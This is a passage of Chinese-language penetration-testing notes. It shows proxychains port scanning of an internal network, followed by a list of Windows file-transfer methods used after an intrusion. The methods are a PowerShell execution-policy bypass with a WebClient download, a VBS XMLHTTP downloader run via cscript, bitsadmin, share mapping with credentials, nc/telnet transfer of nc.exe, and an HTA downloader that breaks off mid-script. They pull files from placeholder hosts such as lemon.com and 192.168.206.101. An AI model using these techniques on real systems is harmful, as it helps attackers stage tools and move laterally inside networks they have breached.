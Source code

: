 3、端口扫描  
InsightScan  
proxy_socket后，直接  
```
proxychains python scanner.py 192.168.0.0/24 -N
```

### 内网文件传输
##### windows下文件传输
1、powershell文件下载  
powershell突破限制执行：powershell -ExecutionPolicy Bypass -File .\1.ps1  
```
$d = New-Object System.Net.WebClient
$d.DownloadFile("http://lemon.com/file.zip","c:/1.zip")
```

2、vbs脚本文件下载  
```php
Set xPost=createObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://192.168.206.101/file.zip",0
xPost.Send()
set sGet=createObject("ADODB.Stream")
sGet.Mode=3
sGet.Type=1
sGet.Open()
sGet.Write xPost.ResponseBody
sGet.SaveToFile "c:\file.zip",2
```
下载执行：  
```
cscript test.vbs
```

3、bitsadmin  
win03测试没有,win08有  
``` 
bitsadmin /transfer n http://lemon.com/file.zip c:\1.zip
```

4、文件共享  
映射了一个，结果没有权限写  
```
net use x: \\127.0.0.1\share /user:centoso.com\userID myPassword
```

5、使用telnet接收数据  
```
服务端：nc -lvp 23 < nc.exe
下载端：telnet ip -f c:\nc.exe
```

6、hta  
保存为.hta文件后运行  
```html
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.206.101/demo.php.zip",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\demo.zip", 2);
    Stream.Close();
```